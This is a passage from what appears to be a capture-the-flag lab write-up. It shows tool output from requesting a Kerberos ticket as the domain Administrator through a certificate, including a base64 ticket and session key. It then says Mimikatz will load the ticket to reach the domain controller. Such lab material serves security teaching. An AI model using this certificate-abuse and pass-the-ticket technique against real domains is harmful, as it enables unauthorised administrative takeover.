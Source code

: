 ```powershell
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'za.tryhackme.loc\Administrator'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             :  za.tryhackme.loc
         UserName                 :  Administrator
         UserRealm                :  za.tryhackme.loc
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
      
```

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

- **Terminal**
